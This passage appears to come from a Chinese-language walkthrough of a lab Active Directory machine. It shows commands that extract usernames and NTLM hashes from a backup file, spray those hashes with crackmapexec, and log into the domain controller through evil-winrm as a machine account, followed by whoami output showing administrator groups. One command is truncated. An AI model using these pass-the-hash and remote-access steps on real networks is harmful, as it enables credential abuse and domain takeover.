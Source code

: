 
> [!warning]
> 在实际渗透测试中，根据环境中的帐户锁定策略限制密码喷射尝试的次数至关重要。这种预防措施有助于防止敏感账户被意外锁定，这可能会干扰我们客户的运营。


```shell
cat backup\_extract.txt | cut -d '￥' -f1 > names.txt
cat backup\_extract.txt | cut -d ':' -f4 > hashes.txt
crackmapexec smb SOUPEDECODE.LOCAL -u valid\_users.txt  -H hashes.txt | grep -v '[-]'

```

![20.DC01.003](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/20.DC01.003.png)

成功枚举出FileServer$ 用户，这表示我们可以通过这个用户连接到DC01，因为DC对这个用户托管了共享的权限，所以说肯定是可以连接DC01的

## 8. WinRM 连接DC01

```bash
evil-winrm -i 192.168.56.128 -u 'FileServer

![20.DC01.004](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/20.DC01.004.png)

获取`fileserver$` 用户在域控主机上的权限。

```shell
 whoami /all
 USER INFORMATION
----------------

User Name               SID
======================= ============================================
soupedecode\fileserver$ S-1-5-21-2986980474-46765180-2505414164-2065


GROUP INFORMATION
-----------------

Group Name                                         Type             SID                                         Attributes
================================================== ================ =========================================== ===============================================================
SOUPEDECODE\Domain Computers                       Group            S-1-5-21-2986980474-46765180-2505414164-515 Mandatory group, Enabled by default, Enabled group
Everyone                                           Well-known group S-1-1-0                                     Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access         Alias            S-1-5-32-554                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                                      Alias            S-1-5-32-545                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                             Alias            S-1-5-32-544                                Mandatory group, Enabled by default, Enabled group, Group owner
NT AUTHORITY\NETWORK                               Well-known group S-1-5-2                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                   Well-known group S-1-5-11                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                     Well-known group S-1-5-15                                    Mandatory group, Enabled by default, Enabled group
SOUPEDECODE\Enterprise Admins                      Group            S-1-5-21-2986980474-46765180-2505414164-519 Mandatory group, Enabled by default, Enabled group
SOUPEDECODE\Denied RODC Password Replication Group Alias            S-1-5-21-2986980474-46765180-2505414164-572 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication                   Well-known group S-1-5-64-10                                 Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level               Label            S-1-16-12288

```